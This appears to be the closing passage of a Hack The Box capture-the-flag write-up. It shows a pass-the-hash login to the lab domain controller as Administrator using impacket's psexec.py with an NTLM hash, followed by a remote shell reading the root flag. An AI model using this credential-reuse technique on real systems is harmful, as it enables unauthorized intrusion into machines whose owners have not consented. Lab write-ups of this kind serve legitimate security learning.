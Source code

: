 Using `impacket`'s [`psexec.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) and the hash we got, we can remotely login to the box as Administrator.

{% highlight bash %}
$ psexec.py Administrator@htb.local -hashes :32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file NKMskQmQ.exe
[*] Opening SVCManager on htb.local.....
[*] Creating service IHWO on htb.local.....
[*] Starting service IHWO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>more C:\Users\Administrator\Desktop\root.txt
f048XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

## Rooted ! Thank you for reading and look forward for more writeups and articles !
